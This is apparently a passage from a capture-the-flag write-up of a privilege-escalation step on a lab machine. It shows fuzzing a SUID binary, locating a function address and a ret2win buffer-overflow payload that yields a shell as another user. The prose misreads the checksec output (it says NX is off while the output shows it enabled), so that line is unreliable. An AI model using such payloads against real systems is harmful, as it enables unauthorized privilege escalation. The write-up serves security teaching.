 we can see that `call_bash` function is not called from main, and its printing multiple strings befor changing the suid to 1337 which is user spooky UID, then it calls `/bin/sh`

Sounds like a [stack buffer overflow](https://ctf101.org/binary-exploitation/buffer-overflow/), let's check for security measures implemented over the binary :

```
m3dsec@local:~/anonymousplayground.thm/files$ checksec --file=hacktheworld
[*] '/home/m3dsec/anonymousplayground.thm/files/hacktheworld'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
we can see that NX Byte(No eXecution) is not enabled neither any canary was found, what will make it much easier to exploit.

<br>

First i had to find the size of the buffer, and how many character i need to overwrite it.
```
magna@anonymous-playground:~$ for i in {1..100};do echo $i;python -c "print('A' * $i)"|./hacktheworld ;done
1
Who do you want to hack? 2
Who do you want to hack? 3
Who do you want to hack? 4
Who do you want to hack? 5
Who do you want to hack? 6
Who do you want to hack? 7
Who do you want to hack? 8
Who do you want to hack? 9
...
Who do you want to hack? 72
Segmentation fault (core dumped)
...
```
we can see that the program crash at 0x48 bytes

let's grab the function address
```
magna@anonymous-playground:~$ readelf -a hacktheworld |grep -i call_bash
    50: 0000000000400657   129 FUNC    GLOBAL DEFAULT   13 call_bash
```

Then with a small Python one-liner , we can inject the little-endian encoded address :
```
magna@anonymous-playground:~$ (python3 -c "print('A'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00\x57\x06\x40\x00\x00\x00\x00\x00')"; cat)|./hacktheworld
Who do you want to hack? 
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.

We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
id
uid=1337(spooky) gid=1001(magna) groups=1001(magna)
python3 -c 'import pty;pty.spawn("/bin/bash")'
spooky@anonymous-playground:~$ export TERM=xterm
spooky@anonymous-playground:~$
```